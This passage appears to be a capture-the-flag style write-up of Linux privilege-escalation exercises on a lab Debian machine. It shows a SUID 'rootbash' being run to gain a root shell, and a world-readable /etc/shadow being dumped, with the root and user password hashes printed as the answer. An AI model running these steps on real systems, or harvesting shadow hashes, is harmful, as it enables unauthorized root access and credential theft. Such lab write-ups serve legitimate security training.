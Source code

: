 - Gain root shell using the **rootbash**.

```bash
user@debian:~/tools/mysql-udf$ cd /tmp
user@debian:/tmp$ ls
backup.tar.gz  rootbash  useless
user@debian:/tmp$ ./rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

---

##  Weak File Permissions - Readable /etc/shadow

### What is the root user's password hash?
- **Answer:** $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
- **Steps to Reproduce:** 
    - Read the `/etc/shadow` file:

```bash
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

